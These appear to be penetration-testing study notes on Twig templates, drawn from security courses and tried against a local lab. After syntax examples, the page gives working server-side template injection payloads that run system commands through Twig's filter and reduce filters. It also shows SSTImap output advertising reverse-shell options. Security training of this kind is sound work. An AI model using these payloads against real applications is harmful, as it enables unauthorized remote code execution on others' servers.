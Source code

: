 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Twig

## Syntax

> _The content below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

PHP does not check data types, thus, treats strings as numbers. Both the examples below will be evaluated to `25`.

```twig
{{5*5}} 
{{5*'5'}}
```

A unique piece of Twig syntax is using `-` to trim whitespace.

```twig
{{-name-}}
```

A `for` loop.

```twig
{% for product in cart %}
Widget
	Price:	${{product.price}}
	Quanity: {{product.quantity}}
	Total: 	${{product.quantity * product.price}}
{% endfor %}
```

A `if` statement and the use of the `capitalize` filter.

```twig
<h1>{% if not admin %}sudo {% endif %}make me a sandwich, {{name|capitalize}}!</h1>
```

## SSTI

### filter

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

Following the methodology outlined [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#detection), we can see that we are dealing with a Twig engine (Figure 1).

```bash
# payload used
${{<%[%'"}}%\.
```

<figure><img src="../../../.gitbook/assets/web_ssti_twig_1.png" alt=""><figcaption><p>Figure 1: Using a polyglot to detecting the engine.</p></figcaption></figure>

We can also confirm that we are dealing with either a Twig or Jinja2 engine  by following the steps outlined [previously ](twig.md#manual)(Figure 2). Twig uses PHP which does not check the variable type and as a result it treats `7` and `'7'` the same.

```bash
# payloads used
{{7*7}} # 49
{{7*'7'}} # 49
```

<figure><img src="../../../.gitbook/assets/web_ssti_basic_1.png" alt=""><figcaption><p>Figure 2: Testing for SSTI.</p></figcaption></figure>

To make sure that this is indeed a server-side and not a client-side template injection, we can view the source code and check if the result is `49` or `{{7*'7'}}`.

```html
<div>
    <hr><h3>Your message:</h3>49                </div>
</div>
```

Next, we can try any Twig-specific payload from this [list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig), in this case leveraging the [`filter`](https://twig.symfony.com/doc/3.x/filters/filter.html) filter, and achieve RCE[^1] (Figure 3).

```bash
# payloads used
{{['id']|filter('system')}}
{{['pwd']|filter('system')}}
```

<figure><img src="../../../.gitbook/assets/web_ssti_twig_2.png" alt=""><figcaption><p>Figure 3: Achieving RCE via an SSTI vulnerability.</p></figcaption></figure>

The above process could be automated using [`sstimap`](https://github.com/vladko312/SSTImap).

{% code overflow="wrap" %}
```bash
$ sstimap.py -u "http://localhost:81/ssti0x01.php" --data 'greeting=*' --engine twig --method POST
<SNIP>

[*] Loaded plugins by categories: languages: 5; legacy_engines: 2; engines: 17; generic: 3
[*] Loaded request body types: 4

[*] Scanning url: http://localhost:81/ssti0x01.php
[*] Testing if Body parameter 'greeting' is injectable
[*] Twig plugin is testing rendering with tag '*'
[+] Twig plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: greeting
  Engine: Twig
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code

[+] Rerun SSTImap providing one of the following options:
    --interactive                Run SSTImap in interactive mode to switch between exploitation modes without losing progress.
    --os-shell                   Prompt for an interactive operating system shell.
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port.
    --reverse-shell HOST PORT    Send a shell back to the attacker's port.
    --upload LOCAL REMOTE        Upload files to the server.
    --download REMOTE LOCAL      Download remote files.
```
{% endcode %}

### reduce

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

Another filter we can leverage is the [`reduce`](https://twig.symfony.com/doc/3.x/filters/reduce.html) filter which takes an arrow function and an initial value as arguments (Figure 4).

```twig
{{[0]|reduce('var_dump','Hello')}}
```

<figure><img src="../../../.gitbook/assets/web_ssti_reduce_1.png" alt=""><figcaption><p>Figure 4: Testing the <code>reduce</code> filter.</p></figcaption></figure>

We can replace the arguments with something that executes system commands, such as PHP's [`system`](https://www.php.net/manual/en/function.system.php) function and achieve RCE (Figure 5).

```twig
{{[0]|reduce('system','whoami')}}
```

<figure><img src="../../../.gitbook/assets/web_ssti_reduce_2.png" alt=""><figcaption><p>Figure 5: Leveraging the <code>reduce</code> filter to achieve RCE.</p></figcaption></figure>

[^1]: Remote Code Execution
